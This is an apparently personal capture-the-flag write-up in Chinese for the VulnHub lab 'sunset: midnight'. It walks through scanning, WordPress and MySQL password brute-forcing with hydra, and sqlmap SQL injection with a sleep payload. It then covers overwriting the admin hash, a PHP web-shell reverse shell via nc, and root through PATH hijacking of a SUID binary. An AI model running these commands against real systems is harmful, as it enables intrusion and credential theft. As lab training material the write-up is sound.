 # sunset: midnight

2024-5-27 https://www.vulnhub.com/entry/sunset-midnight,517/

difficulty: Intermediate

## IP

192.168.5.30

## Scan

根据靶场提示，将 192.168.5.30 sunset-midnight 添加到 /etc/hosts

Open Port -> 22,80,3306

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: FoundRows, SupportsLoadDataLocal, LongColumnFlag, ConnectWithDatabase, Speaks41ProtocolOld, Speaks41ProtocolNew, Support41Auth, SupportsTransactions, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, DontAllowDatabaseTableColumn, ODBCClient, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: "#)CWj2W@zenu"H#r7\G
|_  Auth Plugin Name: mysql_native_password
```

直接访问 http://sunset-midnight/ 是个 wordpress，目录扫描看看有什么：

```
gobuster -t 64 dir -u http://sunset-midnight/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e
```

http://sunset-midnight/robots.txt 显示：

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

wpscan 枚举下用户：

```
wpscan --url http://sunset-midnight/ -e u

hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt sunset-midnight -f http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fsunset-midnight%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username admin is incorrect"
```

只有一个用户 admin，尝试爆破密码，没找到。

扫描一下插件：

```
wpscan --url http://sunset-midnight/ --plugins-detection mixed
```

https://www.exploit-db.com/exploits/40971 发现 wordpress 使用了插件 simply-poll-master Version: 1.5，这个插件存在 SQL 注入漏洞:

```
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2" --dbs --threads=10 --random-agent --level=5 --risk=3 --batch

sqlmap identified the following injection point(s) with a total of 6065 HTTP(s) requests:
---
Parameter: pollid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=spAjaxResults&pollid=2 AND (SELECT 6992 FROM (SELECT(SLEEP(5)))tRDz)
---

available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] wordpress_db
```

抓 wp_users 表数据：

```
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2" -D wordpress_db -T wp_users -C user_login,user_pass --dump --threads=10 --random-agent --level=5 --risk=3 --batch

+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ |
+------------+------------------------------------+
```

看看这个密文，能不能找到对应的明文。但是没有找到，进入不到管理后台，估计这条路是不行。

还开放了一个 mysql，尝试下 root 用户爆破吧：

```
hydra -t 20 -l root -P ~/tools/dict/rockyou.txt  mysql://192.168.5.30

[3306][mysql] host: 192.168.5.30   login: root   password: robert
```

发现 root 密码 robert。

登陆到 mysql 后，我们就能修改 wordpress 的密码为 123：

```
UPDATE `wp_users` SET `user_pass` = "$P$B1HeGknseK9zrkk2ZfBhJHo4PLoHOw0" WHERE user_login="admin";
```

这时，就能用 admin:123 登陆 wordpress 后台系统。修改密码这里是思路点，要想到拿不到明文密码，也可以修改成能够识别的明文密码。

admin 具有管理员权限，直接通过上传 Theme php web shell，kali 上进行监听，得到反弹连接：

```
nc -lvnp 8888

curl http://sunset-midnight/wp-content/uploads/2024/05/8888.php

www-data@midnight:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先升级 tty。

进行系统枚举，发现 2 个用户：

```
www-data@midnight:/$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
jose:x:1000:1000:jose,,,:/home/jose:/bin/bash
```

sudo、getcap、suid 都没发现特殊的程序。

wp 数据库配置文件中发现配置密码：

```
www-data@midnight:/var/www/html/wordpress$ cat /var/www/html/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress_db' );
define( 'DB_USER', 'jose' );
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );
define( 'DB_HOST', 'localhost' );
```

看看这个密码是不是 jose 的 ssh 用户密码，尝试 su jose 切换，切换成功。

在 jose 的家目录中，发现了 user flag：

```
jose@midnight:~$ cat user.txt
956a9564aa5632edca7b745c696f6575
```

尝试寻找提升到 root 权限的路径，sudo、getcap、crontab 都没找到，发现了一个非系统自带的 suid /usr/bin/status。

看看 /usr/bin/status 是什么内容：

```
jose@midnight:~$ /usr/bin/status
● ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
   Active: active (running) since Sun 2024-05-26 21:04:43 EDT; 1h 27min ago
     Docs: man:sshd(8)
           man:sshd_config(5)
  Process: 424 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
```

能够调用 service 查看 ssh 的状态。strings /usr/bin/status 发现 service 没有用绝对路径：

```
service ssh status
```

这里就可以用我们的程序进行替换：

```
cd /tmp
echo '/bin/bash -p' > /tmp/service && chmod +x /tmp/service
echo $PATH
PATH=/tmp:$PATH /usr/bin/status
```

就可以获得 root 权限:

```
root@midnight:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)
```

得到 flag：

```
root@midnight:/root# cat root.txt
          ___   ____
        /' --;^/ ,-_\     \ | /
       / / --o\ o-\ \\   --(_)--
      /-/-/|o|-|\-\\|\\   / | \
       '`  ` |-|   `` '
             |-|
             |-|O
             |-(\,__
          ...|-|\--,\_....
      ,;;;;;;;;;;;;;;;;;;;;;;;;,.
~,;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;,~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;,  ______   ---------   _____     ------

db2def9d4ddcb83902b884de39d426e6

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```
